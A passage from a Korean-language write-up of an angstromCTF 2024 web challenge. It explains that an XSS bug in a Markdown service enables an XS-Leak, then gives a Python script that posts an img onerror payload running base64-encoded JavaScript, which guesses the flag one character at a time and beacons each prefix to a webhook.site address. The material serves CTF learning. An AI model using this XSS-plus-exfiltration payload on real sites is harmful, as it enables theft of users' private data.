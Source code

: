 Markdown 문제에서 XSS 취약점이 발생하는 것을 활용해 XS-Leak을 수행할 수 있다.            
      
### Exploit Code     
    
```python
import requests
import base64

payload = """
const url = "https://wwwwwwwwaas.web.actf.co"; 
const webhook = "https://webhook.site/8cda91cf-9e4b-4ed8-8655-11770f30a4ec"; 

function log(query) { 
    navigator.sendBeacon(webhook + '/log?flag=' + query);
}

function search(query) {
    let script = document.createElement("script"); 
    script.src = url + '/search?q=' + encodeURIComponent(query); 
    script.onload = () => { 
        log(query); 
        check(query); 
    }; 
    document.head.appendChild(script);
}

const chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}";
function check(flag) { 
    for(let i = 0 ; i < chars.length ; i++) { 
        let c = chars[i]; 
        search(flag + c); 
    }
}
check("actf{");
"""

payload = base64.b64encode(payload.encode()).decode() 

r = requests.post(
    "https://markdown.web.actf.co/create", 
    data={"content": f'<img src="x" onerror="eval(atob(`{payload}`))">'},
    allow_redirects=True
)

print(r.url)
```    
      
출력된 URL을 봇이 방문하게 하면, 플래그를 획득할 수 있다.       
            
<img src="/assets/images/ctf/2024/angstrom/wwwwwwwwas/flag.jpg" width="700px">
       